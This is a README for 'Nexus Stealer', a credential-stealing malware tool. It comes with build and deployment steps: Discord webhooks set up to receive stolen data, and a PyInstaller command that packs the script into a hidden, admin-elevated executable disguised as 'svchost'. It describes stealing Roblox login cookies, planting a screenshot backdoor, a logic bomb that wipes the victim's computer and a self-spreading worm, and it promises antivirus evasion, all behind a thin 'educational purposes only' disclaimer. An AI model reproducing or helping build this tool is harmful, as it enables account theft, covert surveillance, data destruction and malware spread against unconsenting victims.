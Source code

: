 # NEXUS STEALER *V1.0.0*

**Disclaimer**: This code is provided for **educational purposes only**. I do not endorse or encourage any misuse, illegal activities, or damage caused by this code. By using this script, you agree that **you are solely responsible** for your actions. I bears no liability for any consequences arising from the use of this tool.

## Version System

The version system is easy to understand, the first number 'V***1***.0.0' is the main number to tell the "Era", for example, major updates will change the first numner. The second number 'V1.***0***.0' is a sub-version of the "Era", for example, the adds of simple updates such as a better security etc... will change the second number. Finally, the third number 'V1.0.***0***' is the patch number. Meaning that if there is a little security bug fix or any tiny fix, the last number will change.

---

## Updates
**Version :** *V1.0.0*

- Official Public Release

## Following Update
**Version :** *V1.1.0*

- Better AV Evasion

---

## Installation and customization *(≈ 5-10 Minutes)*

- **YOU ABSOLUTELY NEED PYTHON >=3.10 *(Latest version recommended)***

- Change the :
```
COOKIE_WEBHOOK_URLS = ["1", "1_backup"]
SCREENSHOT_WEBHOOK_URLS = ["2", "2_backup"]
```
By 4 **DIFFERENT** discord webhooks

- Install the dependencies :
```
pip install psutil requests pywin32 pyautogui cryptography netifaces
```
- Convert to .exe :
```
pyinstaller --onefile --noconsole --hidden-import psutil --hidden-import requests --hidden-import pywin32 --hidden-import pyautogui --hidden-import cryptography --hidden-import netifaces --hidden-import win32crypt --hidden-import win32gui --hidden-import win32con --hidden-import win32process --hidden-import win32security --hidden-import win32api --hidden-import win32file --uac-admin --name svchost NexusStealer.py
```

---

## Explanation

When executed on a machine, the script will wait for a **Roblox Related** application to be oppened. He will then search the whole computer data and browser data in search of the roblox login cookie (ROBLOSECURITY). Once found, it will send the cookie to the designed webhook, leave behind him a backdoor that will send a screenshot of the targeted user desktop **every 30 Minutes** and leave another logic bomb that will continuisly check to see if the backdoor has been deleted, if yes, it will wipe the whole user computer from top to bottom. 

***DO NOT RUN THIS SCRIPT ON YOUR OWN MACHINE, A VIRTUAL MACHINE OR ON SOMEONE ELSE MACHINE WITHOUT THEIR CONSENT.***
**Ive implemented a WORM in the script, meaning that it will spread in the network through ip, usb and emails meaning that even on a VM, it can spread through your network. Please be cautious of the uses of this script.**
